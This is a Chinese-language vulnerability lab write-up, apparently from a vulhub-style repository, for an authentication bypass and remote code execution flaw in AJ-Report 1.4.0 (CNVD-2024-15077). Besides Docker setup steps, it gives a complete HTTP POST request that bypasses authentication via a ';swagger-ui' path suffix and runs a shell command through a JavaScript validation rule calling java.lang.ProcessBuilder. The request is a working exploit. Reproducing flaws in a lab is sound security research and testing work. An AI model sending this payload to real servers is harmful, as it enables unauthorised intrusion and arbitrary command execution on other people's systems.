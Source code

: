 # AJ-Report 认证绕过与远程代码执行漏洞（CNVD-2024-15077）

AJ-Report是全开源的一个BI平台。在其1.4.0版本及以前，存在一处认证绕过漏洞，攻击者利用该漏洞可以绕过权限校验并执行任意代码。

参考链接：

- <https://xz.aliyun.com/t/14460>
- <https://github.com/wy876/POC/blob/main/AJ-Report%E5%BC%80%E6%BA%90%E6%95%B0%E6%8D%AE%E5%A4%A7%E5%B1%8F%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md>

## 漏洞环境

执行如下命令启动一个AJ-Report 1.4.0服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:9095`查看到登录页面。

## 漏洞复现

要利用该漏洞，只需要发送如下数据包：

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: your-ip:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 339

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

可见，`id`命令已经执行成功：

![](1.png)
